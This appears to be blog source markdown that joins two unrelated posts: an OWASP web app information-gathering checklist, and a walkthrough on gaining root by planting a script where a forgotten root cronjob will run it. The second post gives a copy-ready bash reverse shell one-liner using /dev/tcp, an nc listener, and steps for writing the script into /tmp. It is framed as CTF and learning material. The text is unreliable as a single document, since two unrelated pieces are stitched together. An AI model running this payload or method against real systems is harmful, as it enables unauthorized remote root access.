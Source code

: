 ```yaml
---
layout: post
title: I've read OWASP Web App Pentesting Guide so you don't have to... Part I.
subtitle: 'Web App Pentesting: Information Gathering'
cover-img: /assets/img/owasp-information-gathering/cover.jpg
tags: [owasp, pentesting, guide, webapp, testing, hacking]
comments: true
---
```


Here I am, as the hero internet needs, to give you all an easy to digest action list of the thick OWASP WebApp Penetration Testing Guide v4. 

The Penetration Testing Methodology is made of 12 different steps an ethical hacker must take when performing a penetration test, and we will go through each one of those sections over time. Being the first one, **Information Gathering**.


The first phase in security assessment is focused on collecting as much information as possible about a target application.
This task can be carried out in many different ways, like using search engines, scanners, sending simple HTTP requests, or revealing the versions and technologies used by the application.

Often it is possible to gather information by receiving a response from the application that could reveal vulnerabilities in its bad configuration or bad server
management.


## Information Gathering Checklist

- [x]  Check for the robots.txt file to see any disallowed entries, by visiting **<domain>/robots.txt**
- [x]  Check response **Server** Header for system information and if its version has known vulnerabilities. 
Make any request, look for the server information if available in the response, and search for known vulnerabilities in that particular version.
- [x]  Fingerprint application frameworks used by the app to search for known vulnerabilities. This can be done by looking at custom cookies, or the **X-PowerBy** response header
- [x]  Send malformed requests to get error responses from the frameworks used. Debugging mode should be disallowed in production environments. This also may disclose the server information and version, as well as some environment varibles.
- [x]  Search for meta tags in html responses to identify technologies used, and additional paths/functionality to explore and test. 
For the technologies used, again, search for known vulnerabilities on its versions.
- [x]  Check for the sitemap.xml file to see if more information is being disclosed, by visiting **<domain>/sitemaps.xml** if available.
- [x]  Check for security.txt file in **<doamin>/security.txt** or **<domain>/.well-known/security.txt** to see if more information is being disclosed
- [x]  Check if the source code is not minifyed on the browser. Check for developers’ comments on the source code if available, and also look for variables defined with harcoded values. 

Want to know more? Check the next phase in this post. 




























As you might have guessed by the title, in this article, we will explore another scenario where we could take advantage of forgotten cronjobs to gain our precious root access. BUT FIRST, if you are new here, or missed the previous articles about this, don’t hesitate to pay a visit to [PART I](https://https://orianaolivetti.github.io/2023-07-14-rooting-is-easy/) or [PART II](https://orianaolivetti.github.io/2023-02-23-rooting-with-docker/), totally worth it! 

And now, focusing on the topic of today... 

**What are… cronjobs?**

Well, "cron" stands for **command run on notice**, and yes! As it sounds like. A cronjob is a script that was scheduled to be executed periodically. 
You can list your own cronjobs by typing **crontab -l** or checking the ones in the system by seeing what is inside the **/etc/crontab** file.

Alright, I understand, but… how can this can help you get root access? If we are lucky enough, we will find a forgotten cronjob, which no longer exists, that we can modify to our advantage! 
However, we need to have our fingers crossed so that we find a place where we have write permissions. More on that later! Don’t worry for now. 

**Let’s begin with the fun stuff**

Oh no! What happened? For some reason I’m stuck as this low-privilege user called simba. Well… I’ll have to find a way to get root access as soon as possible so I can do important stuff! 

First, let’s see what cronjobs are available. Feel free to experiment alongside simba and type **cat /etc/crontab**

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron1.png){: .mx-auto.d-block :}

Here we have some interesting information. Let me explain…
1. We see that there are only 2 scripts running every minute, **backup.sh** and **server_connect.py**
2. Both scripts are run with **root** permissions.
3. The **first script** is located in oriana’s home, so most probably we won’t have access to modify the contents of that particular script.
4. The **second script**, has no absolute path. When this happens, the crontab binary will look for the script in all locations listed on the **PATH** variable on top of the file.

So… as you might be thinking, our salvation could be the server_connect.py script in case it is located somewhere we have write access to! Let’s check first if the script exists already.
~~~
find / -name server_connect.py 2>/dev/null
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron2.png){: .mx-auto.d-block :}

This means the file does not exist. So we might be able to create it in one of the directories listed on **PATH**. Where could simba have write access? Have you guessed already?
Of course! Everyone can write on the **/tmp** folder!. So now we could execute a reverse shell with root permissions.

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron3.png){: .mx-auto.d-block :}

Simba will create then a server_connect.py script on the /tmp folder. In there, he added a bash script for executing a reverse shell. Yes, a bash script, because even though it used to by a python script, it is just the name of the file. That is why we declare the binary to execute on top.

There you go, feel free to copy it! And replace it with your own ip and port for the reverse shell. 
~~~
#!/bin/bash

bash -i >& /dev/tcp/<ip>/<port> 0>&1
~~~

And don’t forget to give it execution access!!
~~~
chmod +x server_connect.py
~~~
![Terminal](/assets/img/rooting-forgotten-cronjobs/cron4.png){: .mx-auto.d-block :}

**Are we ready now?**

Almost there! We just need to start a listener on that same port, so the reverse shell can connect! Let’s type **nc -nlvp 4444**  on the console and wait…
And after a minute, we got it! We got a reverse shell with root permissions! 

![Terminal](/assets/img/rooting-forgotten-cronjobs/cron5.png){: .mx-auto.d-block :}

Now we we are ready to do more hacking! Like reading sensitive files, or perform system-level actions. The sky is the limit! 

**Conclusion**

From now on, you and simba know how to gain root access when some forgotten scripts are available to run as root periodically, due to security misconfigurations. 
It is time to have fun and nplay some CTFs with this trick under our sleeve! 

Happy Hacking! 